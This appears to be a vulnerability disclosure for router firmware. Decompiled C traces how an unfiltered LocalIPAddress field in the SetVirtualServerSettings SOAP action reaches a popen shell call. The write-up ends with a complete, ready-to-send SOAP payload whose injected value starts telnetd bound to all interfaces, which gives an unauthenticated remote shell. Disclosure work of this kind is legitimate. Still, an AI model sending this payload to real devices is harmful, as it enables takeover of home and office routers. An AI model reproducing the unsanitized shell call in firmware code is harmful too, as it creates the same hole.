 > The popen() function opens a process by creating a pipe, forking, and **invoking the shell**.

Going through the call tree, I found this
```c
...
snprintf(acStack136,0x40,"arp | grep %s | awk \'{printf $4}\'",LocalIPAddress);
iVar1 = FCGI_popen(acStack136,&DAT_004c11f4);
...
```
which is called here
```c
...
snprintf(req,0x100,"/SetVirtualServerSettings/VirtualServerList/VirtualServerInfo:%d/%s",local_415c,"LocalIPAddress");
LocalIPAddress = webGetVarString(param_1,req);
if (LocalIPAddress == 0) {
  responseStat = 0xc;
  goto LAB_00455d24;
}

...

iVar3 = strcmp(Enabled,"true");
if ((((iVar3 == 0) && (LocalIPAddress != 0)) && (iVar3 = strcmp(InternalPort,"9"), iVar3 ==0)) && (iVar3 = strcmp(ProtocolType,"UDP"), iVar3 == 0)) {
  local_4154 = local_4154 + 1;
  iVar3 = FUN_00454e5c(LocalIPAddress,InternalPort,ProtocolType,auStack16676,local_4154);
  if (iVar3 == -1) {
    responseStat = 0xc;
    goto LAB_00455d24;
  }
}
...
```
I love unfiltered inputs.

This is triggered by SOAPAction `SetVirtualServerSettings`. If

- `Enabled` == `true`
- `LocalIPAddress` not empty
- `InternalPort` == `9`
- `ProtocolType` == `UDP`

then the function is called and `FCGI_popen()` is executed.

The final payload looks like this
```xml
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"xmlns:xsd="http://www.w3.org/2001/XMLSchema"xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <SetVirtualServerSettings>
      <VirtualServerList>
        <VirtualServerInfo>
          <Enabled>true</Enabled>
          <VirtualServerDescription>TEST</VirtualServerDescription>
          <ExternalPort>123</ExternalPort>
          <InternalPort>9</InternalPort>
          <ProtocolType>UDP</ProtocolType>
          <ProtocolNumber>6</ProtocolNumber>
          <LocalIPAddress>; telnetd -l sh -b "0.0.0.0"; arp | grep 192.168.0.106 | awk \"{printf $4}\"</LocalIPAddress>
          <ScheduleName>Always</ScheduleName>
        </VirtualServerInfo>
      </VirtualServerList>
    </SetVirtualServerSettings>
  </soap:Body>
```